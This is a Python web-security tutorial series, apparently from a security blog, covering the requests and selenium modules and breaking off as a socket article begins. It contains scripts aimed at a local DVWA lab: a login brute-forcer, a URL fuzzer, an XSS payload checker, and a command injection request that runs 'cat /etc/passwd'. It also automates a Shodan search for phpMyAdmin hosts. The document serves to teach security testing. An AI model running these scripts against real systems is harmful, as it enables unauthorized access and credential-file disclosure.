## requests


### Introduction

Hello, in this article, we will get to know Python's *requests* module, where we can write tools in the field of web application security.

What is ###requests?

[requests](https://requests.readthedocs.io/) is a simple but elegant HTTP module of Python. It allows you to send HTTP requests extremely easily. For requests made with the GET method, you do not need to manually add query strings to your URLs or formally encode your POST data, the requests module takes care of these tasks for you. In this article, we will write various web tools with *requests*, but let's take a look at the installation first. We assume that you have a basic knowledge of the Python language and continue. If you want, you can also look at the [articles](https://pwnlab.me/intermediate-python-articles/) about Python on our website.

### Installation

To install the request module, you can type the following command on your terminal screen.

```
python -m pip install requests
```

After the installation is completed, if you do not receive an error when you create a python file and write and run the code below, your installation is successful.

```
import requests
```

Now let's examine the structure of this module a little.

#### Methods

Although the request module has many methods, the important ones for us are the methods in which we make GET and POST requests. If you don't know what these are, you can search for [HTTP request](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) methods.

`get()`: The type of request we use most is the GET request. When we enter any web page in our browser, we actually send a GET request. When we send a GET request to a URL address, it returns us the HTML dump (page source) of the page, and our browser interprets this HTML and shows us the page. (Not only HTML but also CSS and Javascript codes come with it, but we have no business with them) `requests.get()` method is used to make GET requests. Its usage is basically as follows: `get(url, params, args)`

`post()`: The POST method is generally used when submitting [HTML forms](https://www.w3schools.com/html/html_forms.asp). This method is used on login and registration pages. So we will use this method to perform a brute force attack on a login page. Unlike the GET method, the parameters/data we send with this method are not added to the URL. The `requests.post()` method is used to send POST requests. Its usage is basically as follows: `post(url, data, json, args)`

#### Parameters

`url`: is the address of the web page to which we will send the GET or POST request.

`params`, `data`, `json`, `files`: These parameters are the parameters/data we will send with GET or POST request. `params` are used in the `get()` method and others are used in the `post()` method. The use of these methods depends on the target site. If the target site does not receive a parameter value, there is no need to use them. If it takes parameters, that is, if it is an HTML form, we need to send the desired data to the `name` tag values.

* `params`: In the `get()` method, it receives parameters/data in *dictionary* or *tuple* structure.
* `data`: The `post()` method takes parameters/data in the *dictionary*, *tuple*, or bytes structure.
* `json`: In the `post()` method, it takes parameters/data in *json* structure.
* `files`: In the `post()` method, it takes parameters/data in XML or different file types.

In the GET request, parameters, that is, data, are added to the rest of the URL. Therefore, we can add parameters by directly editing the URL, or we can give data in the *dictionary* structure to the *params* parameter of the get() method. For this:

```python
params = {'key1': 'value1', 'key2': 'value2'}
```

We define the parameters in the dictionary structure. When we make a request with these parameters, the parameters are added to the end of the URL as follows:

```
https://httpbin.org/get?key2=value2&key1=value1
```

Now let's send a GET request by writing a small Python code:

```python
import requests  
params = {'key1': 'value1', 'key2': 'value2'}  
response = requests.get('https://httpbin.org/get', params=params)
```

There are different ways to send data via POST request. Data can be sent in dictionary structure or json structure as in GET request. To send data in dictionary structure:

```python
data = {'key1': 'value1', 'key2': 'value2'}
```

You can use the [json](https://docs.python.org/3/library/json.html) module to send data in json structure.

#### args

The arguments are the same for the get() and post() methods and are optional. If not used, they are executed with their default values.

* `allow_redirects` (bool): Gets TRUE/FALSE to enable/disable redirection. By default it is TRUE, so it allows redirects.
* `auth` (tuple): Used to enable a specific HTTP authentication. Defaults to NULL, does not authenticate.
* `cert` (tuple): Retrieves a certificate file in *tuple* structure. By default it takes NULL value.
* `cookies` (dict): Retrieves the cookie dictionary to send to the specified url. It does not send cookies by default.
* `headers` (dict): Gets the HTTP header to be sent to the specified url. It does not send headers by default.
* `proxies` (dict): Retrieves the protocol to be sent to the proxy URL. By default it takes NULL value.
* `stream` (bool): Determines whether the response will be downloaded immediately (FALSE) or streamed (TRUE). By default it is FALSE, meaning the response is downloaded immediately.
* `timeout` (int): Gets the timeout duration, which represents how many seconds to wait for the client to establish a connection and/or send a response. By default it is NULL, which means the request will continue until the connection is closed.
* `verify` (bool): It takes a value of TRUE to verify the TLS certificate of the servers and FALSE to turn off verification. By default it is TRUE.


####response

It is the response that the server returns to the request we sent. In the Python codes we wrote, we kept the response we received with the *get()* method in a variable named *response*. Now let's examine the content of this answer.

```
print(response.text)
```

We can print the content of the response as text. A text like the one below will appear.

```
{  
"args": {  
"key1": "value1",   
"key2": "value2"  
},   
"headers": {  
"Accept": "*/*",   
"Accept-Encoding": "gzip, deflate",   
"host": "httpbin.org",   
"User-Agent": "python-requests/2.28.1",   
"X-Amzn-Trace-Id": "Root=1-62e23811-6a7c14dc2c3bc62026eebb0c"  
},   
"origin": "185.51.36.100",   
"url": "https://httpbin.org/get?key1=value1&key2=value2"  
}
```

Here we see information about the answer we received. Let's also look at the type of response we receive.

```
>>print(type(response))
```

```
<class 'requests.models.Response'>
```

We understand that it is an object of type requests.models.Response. Looking at the [source code](https://requests.readthedocs.io/en/latest/_modules/requests/models/):



We see a long code. You can also access its documentation [here](https://requests.readthedocs.io/en/latest/api/#requests.Response). What is important for us here are the attiributes written in the \_\_attrs\_\_ section.

```
print(response.__attrs__)
```

```
['_content', 'status_code', 'headers', 'url', 'history', 'encoding', 'reason', 'cookies', 'elapsed', 'request']
```

We can also see these attributes with the code above. With these attributes, we can reach the values written in the text we receive from *response.text*, but what is important for us here is *content*.

```
print(response.content)
```

will return us the page source. Now let's make an application that takes the address of the given website and saves its source in an html file.

```
import requests
```

```
response = requests.get('https://www.google.com.tr')  
f = open("source.html","w")  
f.write(str(response.content))  
f.close()
```

You can see that the page source is pulled as follows. (with CSS and Javascript codes)



You can parse the page source with the [BeautifulSoup](https://pypi.org/project/beautifulsoup4/) module and get the information you want from it. But in this article we will do something different.

### Pulling malicious websites from Usom

[USOM](https://www.usom.gov.tr/)(National Cyber Incident Response Center) is an organization that operates on a 24/7 basis against cyber incidents in our country. It has a list in which it indexes harmful sites on the internet. You can access this list [here](http://www.usom.gov.tr/url-list.txt). Now let's try to pull this list with Python.

```
import requests  
response = requests.get("http://www.usom.gov.tr/url-list.txt", verify=False)  
with open("usom.txt", "wb") as binary_file:  
  binary_file.write(response.content)
```

We were able to pull this list with a simple GET request. Now, make sure that a URL we have is included in this list.Let's write a function that checks whether it is valid or not.

```
def check(url):  
  f = open("usom.txt")  
  lines = f.read()  
  lines = lines.split('\n')  
  for line in lines:  
    if line == url:  
    text = url+" is harmful"  
    return text
```

```
  text = url+" is not harmful."  
  return text
```

We have created an application that searches for the URL we gave to the function in the text file it finds, and returns it as harmless if it does not find that it is harmful to us.

### Brute Force Attack

Brute Force Attack is a simple but still effective type of attack that we can use to log into a web page using trial and error management in the hope of finding the right one. Let's see how we can do this with our python application. I will use the DVWA app for this.



Here I listened to my login page with the [burp suite](https://portswigger.net/burp) tool. I entered the value 'aa' in the username and password fields and pressed the login button. The GET request was captured in the HTTP History section on my burp tool. Of course, you can also use different tools for this. We will use some of the information here. First of all, since we access the DVWA page by logging in, our Python application also needs to access the session somehow. So what is a session? To put it briefly, when we log in from a login page with our username/password information, we actually start a session. The session is terminated when we finish our work and close our browser or when a certain amount of time has passed. Web applications use cookies when creating a session; two cookies are created, one on the client computer and one on the server. The session continues as long as both cookies are not lost. Here, we will log in to the DVWA page and give the session cookie we received to our Python application, allowing it to access the web page with our session. The field marked in the Burp tool 'PHPSESID' is our session cookie. But we better hurry, the session is running out”¦

```
import requests
```

```
header = {"Cookie": "security=low; PHPSESSID=2d9gb38rft9o87vv22vbtnlu91"} #We give the session cookie to the header.
```

```
usernames = ["admin", "root", "user", "aa"] #list of usernames we will use in the experiments  
passwords = ["resu", "password", "toor", "1234"] #list of passwords we will use in the tests
```

```
for i in usernames:  
  for j in passwords:  
    url = f"http://10.0.2.4/dvwa/vulnerabilities/brute/?username={i}&password={j}&Login=Login"  
    #Since our application works with GET request, we can try it by adding username and password information to the URL.  
    result = requests.get(url=url, headers=header)  
    if not "Username and/or password incorrect" in str(result.content):  
      print("Username: ", i)  
      print("password: ", j)  
      print("Status code: ",result.status_code)  
      print("Length: ", len(result.content))  
      print("Username and Password is found")
```



When we write the code in the python file and run it, it will make tests by sending GET requests to the live DVWA server.

And yes, our attack was successful, we found the username and password information. Since the GET method was used on this web page, we were able to easily perform the attack by editing the URL. If the POST method had been used, we could have created a tuple according to the names of the *name* attributes in the HTML form and given it to the *data* parameter of the post() method and carried out our attack. That's enough tips, the rest is up to you...

### URL Fuzzing

In the URL Fuzzing process, a list of possible file/directory names is created and an http request is sent to the system. In this way, directories and files on the server are tried to be found. Of course, doing this process manually by trying it one by one is tiring. How about writing a little python code for this?

```
import requests
```

```
fuzzing_list = ['/robots.txt','/etc/','/dvwa/','/passwd','/usr/','/index.php'] #list to search  
header = {"Cookie": "security=low; PHPSESSID=0k6634cfi19e5sfn2vb754uns6"} Our session cookie on #dvwa
```

```
for i in fuzzing_list:  
  url = "http://10.0.2.4"+str(i) #We are trying to fuzz the rest of the dvwa server's IP address  
  result = requests.get(url = url, headers = header)  
  if "200" in str(result.status_code):  
    print("file or directory is found: ",i)  
  else:  
    print("file or directory isn't found: ",i)
```

When we run the Python code, it will try the directory and file names in the list and give us the following result.



### XSS Attack

**XSS** is a security vulnerability that occurs when values taken from web page inputs are included in the page source without filtering. This is because harmful javascript codes may be included in the page from unfiltered input. There are many XSS scripts that can reveal this vulnerability. You can access a list I found on Github [here](https://github.com/payloadbox/xss-payload-list). In this application, we will make an application that checks whether the values in a list containing XSS scripts are added to the page source by sending them to the page. For this, I gave the session cookie we made in the previous application to the header variable again, I will not explain this part again.

Our DVWA page works with GET request again, so we will use the *requests.get()* function. What we write in the input section is written in the *name* section of the URL. Based on this, we will give our XSS scripts to the *name* parameter.

```
import requests
```

```
header = {"Cookie": "security=low; PHPSESSID=2d9gb38rft9o87vv22vbtnlu91"}  
xss_list = ["<h1>xss</h1>","&lt;script&gt;alert-msg('xss')&lt;/script&gt;","&lt;script&gt;prompt('xss')&lt;/script&gt;","XSS","alert-msg('xss')"]
```

```
for payload in xss_list:  
  url="http://10.0.2.4/dvwa/vulnerabilities/xss_r/?name="+payload Giving scripts to the #name parameter  
  result = requests.get(url=url, headers=header) # Making the GET request  
  if str(payload) in str(result.content):  
    print("Possible XSS found: "+str(payload))
```

When we write the code in the python file and run it, it will make tests by sending GET requests to the live DVWA server.



If we look at the result we got, our XSS scripts did not work because the web page was filtering. <h1>xss</h1> was an HTML injection script, while XSS is just a plain string. You can try different XSS scripts.

### Command Injection Attack

Command injection is a type of vulnerability also known as code execution vulnerability. Running it in the server shell without filtering the input causes this vulnerability. In this way, the attacker can run any malicious code he wants in the server shell. We will use DVWA's command injection web page in our application.



There is an entry here that pings the given IP address. When we add a semicolon to the rest of the ip and try to run the ls command, we see that it works and lists the server directory. Based on this, we can determine that there is a command injection vulnerability on this page. Now let's see how we can detect this vulnerability with Python.



When we listen to the request we sent to the page with burp, we can see that this request was made with a POST method and the parameters sent. As we did in previous applications, we will give our session cookie ('PHPSESSID) to our header parameter. Next, since it is a POST request, we will create a data tuple structure and give it to our post() method.

```
import requests
```

```
command = "cat /etc/passwd" #the command we want to run  
header = {"Cookie": "security=low; PHPSESSID=0k6634cfi19e5sfn2vb754uns6"} #session cookie  
url = "http://10.0.2.4/dvwa/vulnerabilities/exec/" #web address we will attack  
data = {"ip":"127.0.0.1;"+command,"Submit":"Submit"} The parameters we will send with the #POST method  
response = requests.post(url=url, data=data, headers=header) #sending the request
```

```
if "www-data" in str(response.content):  
  print("command injection vulnerability found!")
```

'www-data' consists of a string that we can understand that the command is working when it is found in the response, it is located in the passwd file. Using this method, you can run longer commands sequentially with Python.



As a result, we found the vulnerability by running the python code.

### End

I welcome comments on what other operations we can do in the field of web security with Python”¦

## selenium


### Introduction

Hello, in this article, we will get to know the selenium module, which allows us to perform operations on websites like a user.

### What is Selenium?

[Selenium](https://selenium-python.readthedocs.io/) is a web automation library. With Selenium we can visit and interact with a website.

### Installation

You can follow several different methods to install and run the [Selenium](https://pypi.org/project/selenium/) module. You can install everything manually and run it on your computer, you can automatically install the driver that will run your browser, or you can take advantage of docker technology.

Let's start with the classic manual installation;   
To do this, run the following command in the terminal.

```
pip install selenium
```

Since Selenium runs on a web browser, we need a driver to manage this browser.

**Chrome**:  
<https://chromedriver.chromium.org/downloads>

**Edge**:  
<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

**Firefox**:  
<https://github.com/mozilla/geckodriver/releases>

**Safari**:  
<https://webkit.org/blog/6900/webdriver-support-in-safari-10/>

You can download the driver for the browser you want to use from here. When downloading the driver, make sure it is compatible with the version of your browser. Then copy the driver to the same directory as your python file.

Now we can run our first test code.

```
from selenium import webdriver  
driver = webdriver.Chrome()  
driver.get("http://google.com")
```

Instead of installing the driver manually, we can also install the webdriver\_manager module, which automatically installs the latest version.

```
pip install webdriver-manager
```

After installing this module, we can run the following test code.

```
from selenium import webdriver  
from webdriver_manager.chrome import ChromeDriverManager
```

```
driver = webdriver.Chrome(ChromeDriverManager().install())  
driver.get("http://google.com")
```

To run Selenium with [docker](https://hub.docker.com/r/selenium/standalone-firefox), you can follow the instructions on the [github](https://github.com/SeleniumHQ/docker-selenium) page. Once you install and run Docker, you can access the Sesenium Grid interface at [http://localhost:4444](http://localhost:4444/).



We can also view the web browser at <http://localhost:7900/>. The default password is *secret*.  
 We can run the following test code while Docker is running.

```
from selenium import webdriver  
from selenium.webdriver.common.keys import Keys  
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities  
					   
driver = webdriver.Remote(  
   command_executor="http://127.0.0.1:4444/wd/hub",  
   desired_capabilities={"browserName": "firefox"})  
driver.get("http://google.com")
```

Here, in the browserName section, you must write the name of the browser with which you installed Docker. When the code is run, you can see that Google opens on the address <http://localhost:7900/>.


Python code was run and a session was created on the selenium grid. We went to google.com with this session. However, without closing this session, our python code terminated and our session remained open. We cannot run other Python codes without closing the session. To log out, we can add *driver.quit()* at the end of our python code or restart docker.

### How to Use Selenium Module?

In the installation section, we saw how to open the browser with selenium and go to a page. After going to the page, we can perform various operations on that page. For example, we may want to get a certain text on the page, we may want to press a button on the page, or we may want to scroll the page up or down. All of these are the processes required for us in bot making.

Whatever we want to do on the web page, we first need to access the HTML element in which we will do that action. There are a few different ways to do this. Some of these are:,

* ID: If an id value is assigned to the element, we can access the element with this value. Id values are unique.
* NAME: If a name value is assigned to the element, we can access the element with this value. Name values are not unique; there may be other elements with the same name value on a page. In this case, he takes the first one he finds.
* CLASS: If a class value is added to the element, thisWe can access it with the class value.
* XPATH: We can access it by giving the xpath of the element we want to access in the page source. We can copy the xpath from the inspector tool.



Here we have got the XPath of the search bar in Google. Now let's try to understand the basic logic on a small sample application.

```
#import operations
```

```
from selenium import webdriver                    
from selenium.webdriver.common.keys import Keys  
from selenium.webdriver.common.by import By  
import time
```

```
Call the #driver object (I ran selenium on docker)					
```

```
driver = webdriver.Remote(  
   command_executor="http://127.0.0.1:4444/wd/hub",  
   desired_capabilities={"browserName": "firefox"})
```

```
driver.get("https://github.com") #go to github webpage
```

```
# Access the search bar on github page with XPATH  
searchInput = driver.find_element(By.XPATH, "/html/body/div[1]/header/div/div[2]/div[2]/div[1]/div/div/form/label/input[1]")
```

```
time.sleep(1)  
searchInput.send_keys("CVE") # type 'CVE' in the search bar.  
time.sleep(3)  
searchInput.send_keys(Keys.ENTER) # press ENTER in the search bar.  
time.sleep(5)
```

```
driver.quit()
```

When we run the sample application, the github web page opens, type CVE in the search bar and go to the search page. Then after 5 seconds the browser will close.



We can pull and index the results here. We call this process web scraping.

### Shodan

Now let's make a web bot application running on Shodan. To do this, we go to [shodan.io](https://www.shodan.io/) and copy the Xpath value of the search bar there. We will use this value to access the search bar in our application.



Now we can start writing our code. First of all, we will perform the import operations as mentioned above and create our driver object. Then, we will send the value we will query to the search bar with the xpath value we received and send the '*ENTER'* value.

```
from selenium import webdriver  
from selenium.webdriver.common.keys import Keys  
from selenium.webdriver.common.by import By  
import time
```

```
driver = webdriver.Remote(  
   command_executor="http://127.0.0.1:4444/wd/hub",  
   desired_capabilities={"browserName": "firefox"})
```

```
driver.get("https://www.shodan.io/")
```

```
searchInput = driver.find_element(By.XPATH, "/html/body/div[2]/div/div/div[1]/form/div/div/input")
```

```
searchInput.send_keys("phpMyAdmin", Keys.ENTER)
```

```
time.sleep(10)  
driver.quit()
```

When we run our application, it will type 'phpMyAdmin' in the search bar and query it. Now let's try to get the returned values.



As we can see, the class names of all returned results are assigned as 'result'. We can achieve the results by taking advantage of this situation.

```
results = driver.find_elements(By.CLASS_NAME, 'result')  
print(results)
```



Here we can see the elements taken.

### Twitter Bot

You've probably heard of bot accounts on Twitter. In addition to automating social media accounts, these bots are also used to create artificial agendas on Twitter and for various manipulation and propaganda activities. Twitter takes various measures to block bot accounts. For example, it catches users who engage in aggressively fast transactions. Apart from this, it manipulates id and name values to make accessing elements difficult, making xpath dysfunctional.   
   
 You can easily find examples of bots written in selenium in the old version of Twitter on the web. Unfortunately, these bots do not work in today's version.   
 Apart from this, you can create various applications with Twitter's own API. However, APIs are completely subject to Twitter's control. In short, we can say that Twitter has taken complete control.  
   
 The same situation applies to Instagram and Facebook. Many web applications have taken precautions against bots.

### End

As a result, the selenium module is a nice module that helps us perform automated operations on a real browser and create bots, but some web applications have taken precautions against these bots. I welcome comments on what other applications can be made with Selenium”¦

## socket

### Introduction

Hello, in this article, we will get to know the socket module that we can use to connect to the IP and port addresses of remote servers.

### What is a socket?

[Socket](https://docs.python.org/3/library/socket.html#module-socket) is a module that comes installed with Python. Thanks to this module, we can connect to the desired IP and port address. Now let's take a look at how to use this module and what we can do with it.

### How to use the socket module?

First of all, we need to import the socket module and create a socket object, for this;

```
import socket
```

```
